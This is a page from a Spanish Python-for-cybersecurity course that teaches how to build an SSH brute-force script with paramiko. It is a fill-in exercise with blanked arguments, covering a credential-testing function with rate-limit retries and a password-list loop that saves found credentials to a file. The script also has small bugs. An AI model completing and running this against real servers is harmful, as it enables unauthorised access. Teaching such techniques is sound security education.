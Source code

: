 ```yaml
---
title: "Fuerza bruta en SSH - Python para ciberseguridad"
source: "https://raul-profesor.github.io/Python-ciber/SSH_brute/"
author:
published:
created: 2024-11-15
description:
tags:
  - "clippings"
---
```

## Introducción

Un ataque de fuerza bruta es aquel que se basa en repetidos intentos de login utilizando múltiples combinanciones para comprometer un sistema que requeria autenticación. Hay muchísimas y muy buenas herramientas open source para realizar fuerza bruta al servicio SSH en Linux, como pueden ser Hydra, Metasploit, Patator o Medusa.

Aún así, como nos encanta aprender, vamos a crear nuestro propio script para realizar un ataque de fuerza bruta a un servidor SSH en Python.

En primer lugar, el módulo más importante que vamos a utilizar es [paramiko](https://docs.paramiko.org/en/stable/), que nos proporciona una interfaz sencilla de cliente SSH.

Para instalarlo, bien de forma global en nuestra máquina, junto :

```
$ pip3 install paramiko colorama
```

Bien únicamente en nuestro entorno virtual:

```
(entorno-virtual)$ pipenv install paramiko colorama
```

En este caso instalamos también el módulo [colorama](https://pypi.org/project/colorama/) que únicamente nos permitirá imprimir en colores los textos por pantalla.

## Importando módulos necesarios

Para nuestros propósitos vamos a necesitar los siguientes módulos:

```python
import paramiko
import socket
import time
from colorama import init, Fore
```

- El módulo **paramiko**, entre otras otras cosas, nos permite realizar conexiones ssh a un servidor, mostrando en tiempo real el resultado de los comandos que se ejecuten en el mismo.
- El módulo **socket** nos permite crear conexiones de red de bajo nivel
- **time**, como su nombre indica, proporciona varias funciones relacionadas con el tiempo

Definimos algunos de los colores que vamos a utilizar:

```python
init() # iniciamos colorama

GREEN = Fore.GREEN
RED   = Fore.RED
RESET = Fore.RESET
BLUE  = Fore.BLUE
```

Ahora construiremos una función que, dado nombre de host, un usuario y una contraseña, nos diga si la combinación es correcta:

```python
def is_ssh_open(_______, _______, _______):
    # initialize SSH client
    client = paramiko.SSHClient()
    # add to know hosts
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        client.connect(hostname=_______, username=_______, password=_______, timeout=3)
    except socket.timeout:
        # this is when host is unreachable
        print(f"{RED}[!] Host: {hostname} is unreachable, timed out.{RESET}")
        return False
    except paramiko.AuthenticationException:
        print(f"[!] Invalid credentials for {username}:{password}")
        return False
    except paramiko.SSHException:
        print(f"{BLUE}[*] Quota exceeded, retrying with delay...{RESET}")
        # sleep for a minute
        time.sleep(60)
        return is_ssh_open(hostname, username, password)
    else:
        # connection was established successfully
        print(f"{GREEN}[+] Found combo:\n\tHOSTNAME: {hostname}\n\tUSERNAME: {username}\n\tPASSWORD: {password}{RESET}")
        return True
```

Mucha información en el bloque de arriba, que pasamos a desgranar. En primer lugar inicializamos nuestro cliente SSH usando `paramiko.SSHClient()` que no es más que una representación a alto nivel de una sesión con un servidor SSH.

En segundo lugar, estalecemos la política a usar cuando conectamos con servidores que no tengan una clave de host conocida. Usamos `paramiko.AutoAddPolicy()`, que es una política para añadir automáticamente el nombre de host y la nueva clave de host a nuestras claves locales. En román paladín, es una forma de emular esta típica acción:

![](https://raul-profesor.github.io/Python-ciber/img/unknown-SSH.webp)

Finalmente, intentamos conectarnos al servidor SSH y autenticarnos en él usando el métodos `client.connect()` con un timeout de 3 segundos. Este método puede lanzar varias excepciones:

1. `socket.timeout` cuando el host es inalcanzable durante 3 segundos
2. `paramiko.AuthenticationException` cuando la combinación usuario/contraseña no es correcta
3. `paramiko.SSHException` cuando se han producido muchos intentos de login en un corto periodo de tiempo. Dicho de otro modo, el servidor detecta que es un intento de fuerza bruta, nos damos por enterados y esperaremos un minuto para volver a llamar a la función de nuevo con los mismos parámetros.

Si no se lanza ninguna de las excpeciones anteriores, entonces significa que se ha estalecido la conexión con éxito y las credenciales son correctas, por lo que devolveremos `True` en este caso.

Puesto que estamos hablando de un script en línea de comandos, debemos *parsear* los argumentos que se le pasan al mismo:

```python
if __name__ == "__main__":
    import argparse
    parser = argparse.ArgumentParser(description="SSH Bruteforce Python script.")
    parser.add_argument("host", help="Hostname or IP Address of SSH Server to bruteforce.")
    parser.add_argument("-P", "--passlist", help="File that contain password list in each line.")
    parser.add_argument("-u", "--user", help="Host username.")

    # parseamos los argumentos que se nos han pasado
    args = parser.parse_args()
    host = args._______
    passlist = args._______
    user = args._______
    # leer el fichero
    passlist = open(_______).read().splitlines()
    # fuerza bruta
    for password in passlist:
        if is_ssh_open(host, user, password):
            global credenciales
            # Si la combinación es válida, la guardamos en un archivo
            credenciales = open("credentials.txt", "w").write(f"{user}@{host}:{password}")
            break
    credenciales.close()
```

Básicamente *parseamos* los argumentos para obtener el nombre de host, el nombre de usuario y el fichero con el listado de contraseñas sobre las que iteraremos.

## Referencias

[How to Change Text Color in Python](https://www.thepythoncode.com/article/change-text-color-in-python)

[socket — Comunicación en red](https://rico-schmidt.name/pymotw-3/socket/index.html)

[HOW TO - Programación con sockets](https://docs.python.org/es/3/howto/sockets.html)

[How to Brute-Force SSH Servers in Python](https://www.thepythoncode.com/article/brute-force-ssh-servers-using-paramiko-in-python)